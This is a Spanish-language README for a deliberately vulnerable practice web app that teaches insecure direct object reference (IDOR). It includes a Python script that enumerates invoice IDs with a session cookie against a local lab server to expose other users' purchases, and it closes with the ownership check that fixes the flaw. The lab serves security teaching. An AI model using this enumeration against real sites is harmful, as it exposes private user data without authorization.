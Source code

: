 ## 🚨 Insecure Direct Object Reference (IDOR-Lab)
- Aplicación vulnerable a **referencia de objeto directo inseguro** (en español). Se trata de una vulnerabilidad en la que un atacante puede aprovecharse de una referencia a un identificador para ver información privilegiada de otros usuarios que no debería poder ver.
- Esto es muy común en páginas donde el identificador de alguna entidad hace referencia al ID de ese objeto en la base de datos correspondiente. De esta forma, si ese acceso a la base de datos no es correctamente protegido, puede llegar a darse este fallo de seguridad. 
- Este laboratorio simula una página en la que el usuario puede comprar entradas a diferentes eventos de ocio. Sin embargo, tras realizar una compra se genera un código QR, el cual esconde información incorrectamente protegida.

Ejemplo de código QR generado:

![QR generado](images/qr.png)

Con herramientas como **zbarimg**, podemos ver el contenido que hay en el QR:

![Contenido del QR](images/qr_content.png)

Si visitamos esa URL, vemos los detalles de la compra:

![Detalles de la compra](images/compra.png)

Pero si a un usuario malintencionado le da por hacer un ataque de fuerza bruta, es decir, sustituyendo el ID de su factura por otros IDs, puede llegar a descubrir facturas de otros usuarios. Con este script en python podemos desplegar este ataque:

```python
import requests, signal, sys
from termcolor import colored

#CTRL+C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo ...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://127.0.0.1:5012/"
session = "" # Sustituir con la cookie asignada tras el login de usuario
cookies = {
    'session' : session
}

def extraer_facturas():
    print()
    for i in range(1, 200):
        r = requests.get(url + "ver_factura/" + str(i), cookies=cookies)
        if not "Factura no encontrada" in r.text:
            print(colored(f"[+] Factura encontrada: {i}\n",'green'))

    
if __name__ == '__main__':
    extraer_facturas()
```

El resultado es este:

![Fuerza bruta](images/fuerza_bruta.png)

Si visitamos manualmente uno de ellos, podemos comprobar que se trata de una compra de otro usuario:

![Compra de otro usuario](images/compra_otro_usuario.png)

Es importanrte destacar que esto ha sido posible ya que no existe ningún control de acceso en la base de datos. Una correcta implementación de esto sería comprobar si la factura en cuestión pertenece o no al usuario que hace la petición.



